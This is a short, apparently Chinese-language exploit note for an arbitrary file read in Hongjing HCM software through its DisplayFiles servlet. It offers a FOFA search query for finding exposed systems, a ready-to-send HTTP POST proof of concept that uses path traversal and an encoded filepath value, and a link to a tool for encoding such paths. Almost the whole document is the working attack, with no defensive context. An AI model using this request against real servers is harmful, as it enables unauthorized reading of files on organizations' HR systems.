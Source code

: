 ## 宏景DisplayFiles任意文件读取

## fofa
```
app="HJSOFT-HCM"
```

## poc
```
POST /templates/attestation/../../servlet/DisplayFiles HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded

filepath=VHmj0PAATTP2HJBPAATTPcyRcHb6hPAATTP2HJFPAATTP59XObqwUZaPAATTP2HJBPAATTP6EvXjT
```
![image](../../images/3466b302-c1fc-42c9-929f-5d35500f13bd.png)

### 加解密工具
https://github.com/vaycore/HrmsTool 
